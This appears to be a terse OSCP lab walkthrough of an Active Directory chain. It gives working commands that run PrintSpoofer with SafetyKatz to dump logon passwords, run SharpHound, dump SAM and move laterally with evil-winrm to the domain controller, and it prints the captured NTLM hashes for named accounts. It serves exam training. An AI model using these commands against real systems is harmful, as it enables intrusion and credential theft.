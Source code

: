 # OSCP A

## Active Directory

### .141 MS01

on port :81 vulnerable application. Modify the exploit (remove /apsystem)

{% embed url="https://www.exploit-db.com/exploits/50801" %}

Upload printspoofer64.exe and get all the keys

{% code overflow="wrap" %}
```
./PrintSpoofer64.exe -i -c 'C:\Users\eric.wallows\Desktop\SafetyKatz.exe "sekurlsa::logonpasswords" "exit"'
```
{% endcode %}

celia.almeda : b780a8dc652dfdaad8b32d7352f00b90ba3e42eda8b076197738b08cda12a184

e728ecbadfb02f51ce8eed753f3ff3fd

MS01$ : ec3e3552d9b5d1e6cff0dd8cdc5d0a7e2a66901194f995a7a2076c57cddd1f3e

Mary.Williams : 9a3121977ee93af56ebd0ef4f527a35e

administrator : c48bd7f4af90f29eedc4937dcaf40f3c061b77eca3de30880ede162937703f76 : 3c4495bbd678fac8c9d218be4f2bbc7b



Now use sharphound to retrieve information about domain

<pre data-overflow="wrap"><code><strong>./PrintSpoofer64.exe -i -c 'C:\Users\eric.wallows\Desktop\SharpHound.exe --collectionmethods All --outputdirectory C:\Users\eric.wallows\Desktop'
</strong></code></pre>

### .142 MS02

setup ligolo on .141 as bind then use evil-winrm

from windows.old/Windows/System32 dump SAM

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:

tom\_admin:1001:aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc:::&#x20;

Cheyanne.Adams:1002:aad3b435b51404eeaad3b435b51404ee:b3930e99899cb55b4aefef9a7021ffd0:::&#x20;

David.Rhys:1003:aad3b435b51404eeaad3b435b51404ee:9ac088de348444c71dba2dca92127c11:::&#x20;

Mark.Chetty:1004:aad3b435b51404eeaad3b435b51404ee:92903f280e5c5f3cab018bd91b94c771

### .140 DC01

tom\_admin is DA, use evil-winrm

